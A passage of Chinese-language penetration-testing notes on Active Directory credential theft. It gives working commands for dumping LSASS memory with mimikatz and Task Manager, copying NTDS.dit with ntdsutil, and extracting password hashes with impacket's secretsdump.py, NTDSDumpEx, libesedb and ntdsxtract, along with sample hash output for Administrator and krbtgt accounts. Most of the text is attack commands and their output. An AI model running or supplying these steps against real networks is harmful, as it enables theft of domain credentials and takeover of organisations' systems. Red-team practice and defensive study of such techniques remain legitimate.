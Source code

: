         ![mimikatz-lsa](域渗透相关/mimikatz-lsa.png)
    2.使用MIMIKATZ转储LSASS内存(获取域管理员凭据)
        mimikatz # sekurlsa::minidump c:\temp\lsass.dmp
        mimikatz # sekurlsa::logonpasswords
    3. 使用任务管理器转储LSASS内存(获取域管理员凭据)
		一旦LSASS被转储，mimikatz就可以对lsass.dmp进行提取
		右鍵lsass.exe : Create Dump File
    4. 用NTDSUTIL创建媒体安装集(IFM) (用于抓取NTDS.DIT文件)
	    NTDSUtil一个本地运行的针对活动目录数据库(ntds.dit)的命令，并且允许为DCPromo准备IFM集。
        IFM是用于DCPromo命令中”从媒体安装”这一过程的，所以，在配置域控时就不需要通过网络从其他域控拷贝数据。
        并且也会在c:/temp目录下生成的一份NTDS.dit附件。
            ntdsutil "ac i ntds" "ifm" "create full c:\windows\temp\temp" q q
        創建了temp目錄，下面会生成 ntds.dit 和 SYSTEM / SECURITY
    5. 从NTDS.DIT文件(和注册表系统配置单元)转储活动目录域凭据
	    需要 ntds.dit 和 system.hive (由第4步得到)
	    https://github.com/CoreSecurity/impacket/blob/master/examples/secretsdump.py (only linux): 
		-> python secretsdump.py -ntds /root/Desktop/temp/Active Directory/ntds.dit -system /root/Desktop/temp/registry/SYSTEM LOCAL
		 -> 
			demo.local\Administrator:500:aad3b435b51404eeaad3b435b51404ee:161cff084477fe596a5db81874498a24:::
			Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
			OWA2010DC$:1000:aad3b435b51404eeaad3b435b51404ee:aac6185241728f7685c8d50c61573b75:::
	krbtgt:502:aad3b435b51404eeaad3b435b51404ee:3f65c6984cbfebdc5f17986d07620afb:::
	OWA2010$:1103:aad3b435b51404eeaad3b435b51404ee:d51220f5659cd982fb3fbe4169093181:::
	or -> https://github.com/zcgonvh/NTDSDumpEx/releases
		NTDSDumpEx.exe -d ntds.dit -o hash.txt -s system.hiv 
        进一步从NTDS.DIT获取详细的信息:
	        https://github.com/libyal/libesedb/releases
	        $ ./configure
	$ make
	        $ sudo make install
	$ sudo ldconfig
	        root@kali2:~/Desktop/temp# /usr/local/bin/esedbexport -m tables "/root/Desktop/temp/Active Directory/ntds.dit"  
		    (ntds.dit中提取出表，20分鐘，两个重要的表为:datatable以及link_table，他们都会被存放在./ntds.dit.export/文件夹中.)
	    使用ntdsxtract提取域中信息，一旦表被提取出来，很多python工具可以将这些表中的信息进一步提取，比如ntdsxtract就可以完美进行。
	        https://github.com/csababarta/ntdsxtract.git